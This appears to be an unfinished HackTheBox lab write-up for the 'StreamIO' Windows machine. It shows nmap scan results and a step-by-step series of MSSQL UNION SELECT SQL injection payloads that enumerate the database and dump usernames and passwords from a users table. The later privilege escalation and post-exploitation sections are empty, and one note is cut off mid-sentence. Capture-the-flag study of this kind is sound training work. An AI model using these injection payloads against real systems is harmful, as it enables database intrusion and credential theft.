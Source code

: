 ```yaml
---
description: >-
  StreamIO HTB Machine
title: StreamIO (Medium)                # Add title here
date: 2023-04-24 08:00:00 -0600                           # Change the date to match completion date
categories: [HackTheBox, Windows - Medium]                     # Change Templates to Writeup
tags: [hackthebox, lfi, php, source code review, rfi, browser credentials, cracking, ldap enum, ldap privesc, laps]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Streamio.png                # Add infocard image here for post preview image
---
```

### Host entries:
```bash
10.10.10.125  watch.streamio.htb streamio.htb alpblog.streamio.htb
```
If Active Directory => [[Synchronize NTP]] with the domain controller.

### Content

- LFI using PHP wrappers
- Source Code Review
- Detecting and exploiting remote file inclusion
- Browser saved credentials retrieval and cracking
- Automatic LDAP enumeration for lateral movement
- LDAP abuse for privilege escalation
- LAPS password exposure

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 5000 -Pn -n -vvv -oG allPorts 10.10.11.158
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.158 ()   Status: Up
Host: 10.10.11.158 ()   Ports: 53/open/tcp//domain///, 80/open/tcp//http///, 88/open/tcp//kerberos-sec///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 389/open/tcp//ldap///, 443/open/tcp//https///, 445/open/tcp//microsoft-ds///, 464/open/tcp//kpasswd5///, 593/open/tcp//http-rpc-epmap///, 636/open/tcp//ldapssl///, 3268/open/tcp//globalcatLDAP///, 3269/open/tcp//globalcatLDAPssl///, 5985/open/tcp//wsman///, 9389/open/tcp//adws///, 49667/open/tcp/////, 49673/open/tcp/////, 49674/open/tcp/////, 49702/open/tcp/////  Ignored State: filtered (65516)

```
Services and Versions running:
```bash
nmap -p53,80,88,135,139,389,443,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49702 -sCV -Pn -n -vvvv -oN targeted 10.10.11.158
Nmap scan report for 10.10.11.158
Host is up, received user-set (0.20s latency).
Scanned at 2023-04-24 23:10:36 CST for 102s

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2023-04-25 12:10:44Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
443/tcp   open  ssl/http      syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=streamIO/countryName=EU
| Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb
| Issuer: commonName=streamIO/countryName=EU
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-02-22T07:03:28
| Not valid after:  2022-03-24T07:03:28
| MD5:   b99a2c8da0b8b10aeefabe204abdecaf
| SHA-1: 6c6a3f5c753661d52da60e6675c056ce56e4656d
| -----BEGIN CERTIFICATE-----
| MIIDYjCCAkqgAwIBAgIUbdDRZxR55nbfMxJzBHWVXcH83kQwDQYJKoZIhvcNAQEL
| BQAwIDELMAkGA1UEBhMCRVUxETAPBgNVBAMMCHN0cmVhbUlPMB4XDTIyMDIyMjA3
| MDMyOFoXDTIyMDMyNDA3MDMyOFowIDELMAkGA1UEBhMCRVUxETAPBgNVBAMMCHN0
| cmVhbUlPMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA2QSO8noWDU+A
| MYuhSMrB2mA+V7W2gwMdTHxYK0ausnBHdfQ4yGgAs7SdyYKXf8fA502x4LvYwgmd
| 67QtQdYtsTSv63SlnEW3zjJyu/dRW0cwMfBCqyiLgAScrxb/6HOhpnOAzk0DdBWE
| 2vobsSSAh+cDHVSuSbEBLqJ0GEL4hcggHhQq6HLRmmrb0wGjL1WIwjQ8cCWcFzzw
| 5Xe3gEe+aHK245qZKrZtHuXelFe72/nbF8VFiukkaBMgoh6VfpM66nMzy+KeLfhP
| FkxBt6osGUHwSnocJknc7t+ySRVTACAMPjbbPGEl4hvNEcZpepep6jD6qgi4k7bL
| 82Nu2AeSIQIDAQABo4GTMIGQMB0GA1UdDgQWBBRf0ALWCgvVfRgijR2I0KY0uRjY
| djAfBgNVHSMEGDAWgBRf0ALWCgvVfRgijR2I0KY0uRjYdjAPBgNVHRMBAf8EBTAD
| AQH/MCsGA1UdEQQkMCKCDHN0cmVhbUlPLmh0YoISd2F0Y2guc3RyZWFtSU8uaHRi
| MBAGA1UdIAQJMAcwBQYDKgMEMA0GCSqGSIb3DQEBCwUAA4IBAQCCAFvDk/XXswL4
| cP6nH8MEkdEU7yvMOIPp+6kpgujJsb/Pj66v37w4f3us53dcoixgunFfRO/qAjtY
| PNWjebXttLHER+fet53Mu/U8bVQO5QD6ErSYUrzW/l3PNUFHIewpNg09gmkY4gXt
| oZzGN7kvjuKHm+lG0MunVzcJzJ3WcLHQUcwEWAdSGeAyKTfGNy882YTUiAC3p7HT
| 61PwCI+lO/OU52VlgnItRHH+yexBTLRB+Oa2UhB7GnntQOR1S5g497Cs3yAciST2
| JaKhcCnBY1cWqUSAm56QK3mz55BNPcOUHLhrFLjIaWRVx8Ro8QOCWcxkTfVcKcR+
| DSJTOJH8
|_-----END CERTIFICATE-----
| tls-alpn: 
|_  http/1.1
|_http-title: Not Found
|_ssl-date: 2023-04-25T12:12:16+00:00; +7h00m01s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack Microsoft Windows RPC
49702/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 18376/tcp): CLEAN (Timeout)
|   Check 2 (port 44245/tcp): CLEAN (Timeout)
|   Check 3 (port 57902/udp): CLEAN (Timeout)
|   Check 4 (port 25119/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-04-25T12:11:36
|_  start_date: N/A
```
As we can see port tcp-443 has a certificate bonded to a domain called `watch.streamio.htb` once we add the domain to our `/etc/hosts` file we can see that the following web page is to be shown:

![Description](/assets/img/Pasted image 20230426223803.png)

### Exploitation
Let's try to exploit an SQL Injection[^sql-injection-mssql] on the search bar we'll use the most basic approach with UNION SELECT based SQLi.

First of all we need to identify the behavior of the database with sqli payloads, a good idea is to enumerate columns with sqli such as :
```bash
' union select 1-- -
' union select 1,2-- -
' union select 1,2,3-- -
' union select 1,2,3,4-- -
' union select 1,2,3,4,5-- -
' union select 1,2,3,4,5,6-- -
```

> If there is a successsful answer then we need to identify which column retrieves information from the database.
{: .prompt-tip }

```bash
' union select 1,@@version,3,4,5,6 -- -
```
![Database_Version](/assets/img/Pasted image 20230426233714.png)

You can also use any of the options below:
```bash
' union select 1,CURRENT_USER,3,4,5,6 -- -
' union select 1,user_name(),3,4,5,6 -- -
' union select 1,system_user,3,4,5,6 -- -
' union select 1,user,3,4,5,6 -- -
```
![Database_User](/assets/img/Pasted image 20230426234307.png)

It is of upmost importance to gather the name of the database being used:
```bash
' union select 1,DB_NAME(),3,4,5,6 -- -
```
![Database_Name](/assets/img/Pasted image 20230426234212.png)

Once that we get the name of the database we can proceed to gather the tables on such database:
```bash
# First and simple option is retrieving all the info from a table
' union select 1,name,3,4,5,6 FROM STREAMIO..sysdatabases-- -
``` 
![Database_Tables](/assets/img/Pasted image 20230426235140.png)

Another option is to retrieve the tables on a simple column with the function [STRING_AGG](https://www.mssqltips.com/sqlservertutorial/9371/sql-string-agg-function/):
```bash
' union select 1,(SELECT STRING_AGG(name, ', ') FROM STREAMIO..sysobjects),3,4,5,6-- -
```
![Database_Tables](/assets/img/Pasted image 20230426235753.png)

Then we extract the column names, we can use a WHERE condition clause to extract only the columns from an specific table in this case the "users" table:
```bash
' union select 1,name,3,4,5,6 FROM syscolumns WHERE id=(SELECT id FROM sysobjects WHERE name = 'users')-- -
```
![Database_Columns](/assets/img/Pasted image 20230427000937.png)

Finally once that we gather all the info we then proceed to retrieve information from the table:
```bash
' union select 1,CONCAT(username, ' ', password),3,4,5,6 FROM users-- -
```

### Root privesc

### Post Exploitation

### Credentials

### Notes

-   Chisel have different configurations, this time we use a Forward SOCKS Proxy, which is a bind shell, that is not neccessarily the easiest way to forward the remote port, but is a new way to consider in case that a reverse shell is not possible.
-   Always look for exploits, analyze them and check if something can be useful to exploit the machine.
-   Chisel has some

### References:
[^sql-injection-mssql]: MSSQL SQL Injection UNION SELECT



